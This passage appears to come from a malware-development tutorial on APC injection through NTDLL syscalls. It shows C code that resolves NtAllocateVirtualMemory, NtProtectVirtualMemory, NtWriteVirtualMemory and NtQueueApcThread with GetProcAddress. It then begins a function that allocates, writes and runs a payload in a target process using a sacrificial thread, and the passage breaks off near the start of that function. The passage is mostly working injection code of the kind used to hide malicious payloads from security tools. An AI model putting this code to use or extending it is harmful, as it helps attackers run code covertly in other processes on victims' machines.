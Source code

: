 ### Implementation Using GetProcAddress and GetModuleHandle

A `Syscall` structure is created and initialized using `InitializeSyscallStruct`, which holds the addresses of the syscalls used, as shown below.

```c

// A structure used to keep the syscalls used
typedef struct _Syscall {

	fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
	fnNtProtectVirtualMemory  pNtProtectVirtualMemory;
	fnNtWriteVirtualMemory    pNtWriteVirtualMemory;
	fnNtQueueApcThread        pNtQueueApcThread;

}Syscall, * PSyscall;


// Function used to populate the input 'St' structure
BOOL InitializeSyscallStruct(OUT PSyscall St) {

	HMODULE hNtdll =  GetModuleHandle(L"NTDLL.DLL");
	if (!hNtdll) {
		printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	St->pNtAllocateVirtualMemory  = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
	St->pNtProtectVirtualMemory   = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
	St->pNtWriteVirtualMemory     = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
	St->pNtQueueApcThread         = (fnNtQueueApcThread)GetProcAddress(hNtdll, "NtQueueApcThread");

    // check if GetProcAddress missed a syscall 
	if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtQueueApcThread == NULL)
		return FALSE;
	else
		return TRUE;
}
```

Next, the `ApcInjectionViaSyscalls` function will be responsible for allocating, writing and executing the payload, `pPayload`, in the target process, `hProcess`. It will use the sacrificial thread's handle, `hThread`. The function returns `FALSE` if it fails to execute the payload and `TRUE` if it succeeds.

```c
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	Syscall     St                      = { 0 };
	NTSTATUS    STATUS                  = NULL;
	PVOID       pAddress                = NULL;
	ULONG       uOldProtection          = NULL;
	SIZE_T      sSize                   = sPayloadSize,
	            sNumberOfBytesWritten   = NULL;

	// Initializing the 'St' structure to fetch the syscall's addresses
	if (!InitializeSyscallStruct(&St)) {
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}
```